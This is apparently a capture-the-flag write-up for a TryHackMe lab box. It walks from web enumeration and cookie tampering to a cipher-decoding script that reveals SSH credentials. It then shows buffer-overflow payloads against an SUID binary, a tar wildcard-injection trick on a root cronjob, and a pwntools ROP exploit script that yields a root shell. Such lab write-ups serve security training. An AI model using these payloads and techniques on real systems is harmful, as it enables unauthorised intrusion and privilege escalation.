anonymous playground
Anonymous Playground
Enumeration
Rustscan:

Nmap:

Website Enumeration:

Clicking on Operatives

Robots.txt

Enumerating the new end-point

We get a message, “You have not been granted access”
I wrote granted in bold because, we get the following when we add .php to the link.

Cookie Manipulation:
I opened the Page in Inspect mode in firefox & opened the cookie in storage. The value for access is denied.

I changed the value to granted & reloaded the page. I was given access.

We get a ciphered message. The hint in tryhackme room says to write a python script for ‘zA’='a'
After researching for a while, I found that the cipher uses 2 charecter blocks hE, zA, dC ...etc
The index of English Alphabets is used ie a/A = 1......z/Z = 26
For each pair, The individual indexes are added & then the result is modded with 26 to get the new index.
The new index is then converted to the corresponding alphabet.
Eg. ‘zA’ ------- z => 26 + a => 1 ------- 27%26 ------- 1 <= ‘a’
‘hE’ ------- h => 8 + e => 5 ------- 13%26 ------- 13 <= ‘m’
Thus, we can manually add the indexes of each pair, modulus by 26 & convert back the index to alphabet. However, following is a python script automating the process.
############################################
encoded = input("Enter the String to Decode => ")
all_alpha = "" # String of all lowercase english alphabets
for i in range(ord('a'),ord('z')+1):
all_alpha += chr(i)
print("Encoded => " + encoded)
print("All alphabets => " + all_alpha)
print("Decoded => ",end="")
# This loop iterates over all PAIRS of the alphabets, ignoring the '::'
for i in range(0,len(encoded),2):
first_char = encoded[i] # Since the first char in all pairs is lowercase
second_char = encoded[i+1].lower() # Since the second char in all pairs is uppercase
if first_char == ':':
print(":",end="")
continue
first_alpha_position = ord(first_char) - ord('a') + 1
second_alpha_position = ord(second_char) - ord('a') + 1
decoded_alpha_position = (first_alpha_position + second_alpha_position) % 26 # The modulo operation takes care of the "imagine the list of alphabets arranged in a circular loop" part I was talking about
decoded_alpha = all_alpha[decoded_alpha_position - 1] # Array indexes start at 0, yes?
print(decoded_alpha,end="")
print("")
##############################################
Now, Lets use the script to encode the message.
hEzAdCfHzA::hEzAdCfHzAhAiJzAeIaDjBcBhHgAzAfHfN

Result: (Credentials Found)
magna:magnaisanelephant
Foothold
I SSH to the machine using the above credentials & I was successful.

We found the initial flag in the home directory of the user. Also, we found a linux executible named hacktheworld
The executbile has SUID bit set.
I copy it to my local machine to Examine.

It is a simple program that asks for user input. (Maybe its vuknerable to Buffer Overflow)
Privilege Escalation
I created a pattern using metasploit
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Open the Program using GDB & run it. Then use the above input.

As we can see, we get he segmentation fault message. Indicating Buffer Overflow.
Scrolling down, we see the register values.

Or
We can use “i r” to get he registry values in gdb

We get the value pushed in RBP: 'c1Ac2Ac3' with Memory ‘3363413263413163’
You can manully, find the c1Ac2Ac3 in the input & calculate the offset.
Or
Use the metasploit tool to find the offset location using the Memory.
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 200 -q 3363413263413163

We found that Offset is at 64 charecters. Also this is a 64 bit binary, thus is uses 8 byte memory addresses.
Thus, to reach RIP (Register Pointing to Next Instruction) we need Offset + 8 Bytes for RBP
Total After 72 Charecters, we can write in RIP
Important
From Here there are two methods.
Method - 1 (Simple): Intened by tryhackme room creator which leads to lateral movement
Method - 2 (Complex): Will lead to root user
Method - 1
First, I thought to add a shellcode in our data and point the RIP to our shellcode. (This is done in simple buffer overflow)
However, when I checked the security of the executible, I found the following.

PIE/ASLR
ASLR (Address Space Layout Randomisation) is Kernel level Protection
ASLR is system based. (Thus, in my Kali environment, i have kept it off so that buffer overflow is easy. The memory of the input doesn't change in each run if ASLR is OFF.
However, the target system has ASLR turned ON. (We verify this by running the program in GDB two times & seeing the memory addresses of the input.)
Thus, we cannot point the RIP to our shellcode hidden in the input, because each run time the memory location changes.
PIE (Position Independent Executable) is Binary Protection during Compilation
PIE is enabled during compilation. However, as we can check above PIE is not enabled.
Note: But still i cannot execute my shellcode in input even if I try it on my local machine where ASLR is OFF, due to the following protection.
NX
No eXecute (NX Bit)
The No eXecute or the NX bit (also known as Data Execution Prevention or DEP) marks certain areas of the program as not executable, meaning that stored input or data cannot be executed as code. This is significant because it prevents attackers from being able to jump to custom shellcode that they've stored on the stack or in a global variable.
Thus, we have to find some other way. Lets examine the executible in ghidra.
We added the executable file to a temporary demo project.

Then start the Decompiler. (Green Dragon Icon). The click on File ----→ Open & select the hacktheword file.

Next, We click on Functions & view the main function.

We can now see the decompiled code on the right. As expected the code uses gets() function due to which buffer overflow was possible.
Now, An intresting point to note is the call_bash function. Its never been called in the main function. However, the name seems intresting.
Lets examine it.

As we can see, the function prints certain text & then sets the UID to hexadecimal 0x539 => 1337 in decimal.
Lastly it opens a sh shell.
Thus, if we can point our RIP register to the start of this function we can open a shell with UID 1337.
Note: NX Enabled will not stop this operation because, this code is in the executable area. (Not in user Data or Stack area)
To find the memory location of call_bash function we can use 2 methods.
1. Using ghidra
The memory location is highlighted above.
00400657
2. Using readelf tool.
readelf -s <Program_Name> : Lists all the functions memory location.
We can grep out the call_bash function to get our location.
readelf -s hacktheworld | grep call_bash

We got the same memory location as in ghidra. (But got the actual 64 bit address)
0000000000400657
Now, lets add this memory in Little Endian format to our payload having 72 bytes of dummy data + the above memory location which will be feeded into the RIP for execution.
Payload
python -c "print('A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00')"
We input this payload into the program.

We are able to call the call_bash function successfully using buffer overflow. However, we did not get a shell.
To have the shell open, we need to add a tool like cat to our payload without any agruments.
Payload
(python -c "print('A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00')"; cat)
We input this payload into the program.

This time, the program waited & when any input was passed it exited.
To Solve this issue, I found 2 Solutions online. (Seems like an issue with the RBP)
Solution-1: Change the Start of call_bash to next memory location.
From: 0000000000400657 To 0000000000400658
Final Payload-1
(python -c "print('A'*72 + '\x58\x06\x40\x00\x00\x00\x00\x00')"; cat)
We input this payload into the program.

Solution-2: Send two sets of memory to RIP so that the function gets executed twice.
From: '\x58\x06\x40\x00\x00\x00\x00\x00' To '\x57\x06\x40\x00\x00\x00\x00\x00\x57\x06\x40\x00\x00\x00\x00\x00'
Final Payload-2
(python -c "print('A'*72 + '\x57\x06\x40\x00\x00\x00\x00\x00\x57\x06\x40\x00\x00\x00\x00\x00')"; cat)
We input this payload into the program.

Then, we upgrade to a stable shell using python.
python -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl + Z
stty raw -echo:fg
We got the Second user flag in the home directory of spooky

Lets Check the .webscript

By examining the script, we can tell. The program will create a C Code & then compile it.
The compiled program has UID bit set (4755) & will call bash.
So, we need to somehow, run this script as root.
I checked the crontab & found an intresting entry.

The entire home directory of spooky is being backed up using tar by root as * wildcard is used.
Using GTFObins for Tar. We can execute the .webscript as root.
Note: As the .webscript file has code to delete itself upon running. I will make a backup of the file.
Create the Following FIles
touch /home/spooky/'--checkpoint=1'
touch /home/spooky/'--checkpoint-action=exec=sh .webscript'

We wait for a minute & list the directory again. We have sucessfully received the output folder named cache as per the script.

We found the SUID executable inside the .cache folder & run it to get root shell.
Note: -p is not mandatory
Alternatively, we can create a shell.sh file having the following contents. Next make it executible
Start a listner in our local machine & create the following files.

We will get the connection in our listener when the cronjob runs.

Thanks!!
Method-2
This method uses ROP gadgets of the registry to gain direct root access.
As we already know, the call_bash function uses a setuid to 1337
We will try to change the UID to 0 using ROP gadgets.
Open the Program with radare2
radare2 -AAAA hacktheworld
Then list all the functions using afl

To view individual functions we can use :
s main to select (Changes the prompt address) & then pdf to disassemble

We see there is call to system function gets.
But no call to call_bash
Next, I checked the other function.

Note: The address of setuid is 0x004006c4
Following are some of the ROP Gadgets:
xor rdi,rdi; ret
mov rdi,0; ret
push 0; pop rdi; ret
I tried to test them whether they are present in the program.
/R xor rdi,rdi
/R mov rdi,0
/R pop rdi

As, we can see above the third ROP gadget is present & is at location 0x00400773
Now, let’s summarize our findings so far:
rip -> +72
ROP gadget that sets rdi (setuid param) to 0 -> 0x400773
setuid() call -> 0x4006c4
Since we are working on a x64 binary, the flow would be:
1. The rip is to be overwritten with the address of the ROP gadget
2. 0x00000000 is to be pushed on stack (at rsp, the top of the stack)
3. The ROP gadget is then invoked, which pops the top of stack (0), and transfers this value to rdi (therefore, setting rdi to 0), then calls ret, which now would cause the instruction at the address on the new (increased) rsp to be invoked.
4. Therefore, this address should be that of the setuid() call that we took note of earlier.
5. After setuid(), the binary then calls system(), and gives us a shell.
This gives us the payload structure which must be written exactly in this manner on the stack:
72 bytes junk -> 0x00400773 (pop rdi,ret) -> 0x00000000 (for setuid) -> 0x004006c4 (setuid)
Lets write a python code to do the above:
##########################
#!/usr/bin/python3
from pwn import *
import sys
# Checking argument
if len(sys.argv) != 2:
print("Usage: " + sys.argv[0] + " target")
exit(0)
# Getting argument
target = sys.argv[1]
# Establishing ssh session
ssh_session = ssh('magna',target,password='magnaisanelephant')
info("Opening ./hacktheworld")
proc = ssh_session.process('./hacktheworld')
# Preparing the payload
junk = b"A"*72 # Just some junk
pop_ret = p64(0x00400773) # POP RDI; RET gadget
zero = p64(0x0) # 0x00000000 to 'push' on to stack
setuid = p64(0x004006c4) # setuid() call in call_bash
payload = junk + pop_ret + zero + setuid
# Getting root shell
proc.recvrepeat(0.1) # Receives the "Who do you want to hacK? " line
proc.sendline(payload) # Sends the payload
proc.interactive() # Gets an interactive shell
###########################
We run the python script from our local machine.
python rop_exploit.py 10.10.151.67

Thus, we have direct root access using the ROP Gadget.
Thanks!!